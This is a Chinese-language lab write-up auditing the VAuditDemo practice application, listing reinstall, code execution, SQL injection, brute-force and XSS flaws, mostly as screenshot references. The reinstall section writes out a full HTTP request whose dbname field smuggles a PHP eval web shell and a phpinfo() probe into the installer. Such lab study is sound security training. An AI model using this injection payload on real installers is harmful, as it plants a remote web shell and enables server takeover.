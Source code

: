 

# 代码审计

### VAuditDemo靶场

![image-20240925155611001](./assets/image-20240925155611001.png)

------



### 重装漏洞复现

>  相关代码

![image-20240925155830110](./assets/image-20240925155830110.png)

> 使用bp抓包



![image-20240925160740544](./assets/image-20240925160740544.png)

> 修改dataname

```php
//完整payload

POST /install/install.php HTTP/1.1
Host: 192.168.1.52:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: http://192.168.1.52:8081
Connection: keep-alive
Referer: http://192.168.1.52:8081/install/install.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

dbhost=127.0.0.1&dbuser=root&dbpass=root&dbname=test2;-- -";@eval($_POST[1]);//&Submit=%E5%AE%89%E8%A3%9D
```



```php
dbhost=localhost&dbuser=root&dbpass=root&dbname=test2;-- -";phpinfo();//&Submit=%E5%AE%89%E8%A3%9D

dbhost=127.0.0.1&dbuser=root&dbpass=root&dbname=test2;-- -";@eval($_POST[1]);//&Submit=%E5%AE%89%E8%A3%9D

exp;-- -";phpinfo();//
```

![image-20240925170408704](./assets/image-20240925170408704.png)

> 访问首页

![image-20240925170505142](./assets/image-20240925170505142.png)



------

### 远程代码执行漏洞

> 源码位置

![image-20240925193823973](./assets/image-20240925193823973.png)

> 执行展示

![image-20240925193711014](./assets/image-20240925193711014.png)

------

### 搜索框sql注入



> http://192.168.71.48:81/search.php?search=1

![image-20240925200443195](./assets/image-20240925200443195.png)

> 执行效果

![image-20240925200544589](./assets/image-20240925200544589.png)

------

### 登录框可爆破

![image-20240925203055163](./assets/image-20240925203055163.png)

------

### XSS

![image-20240925204103239](./assets/image-20240925204103239.png)

------

### 留言搜索框sql注入

![image-20240925204354762](./assets/image-20240925204354762.png)

------

### 留言信息框sql注入

![image-20240926154740314](./assets/image-20240926154740314.png)
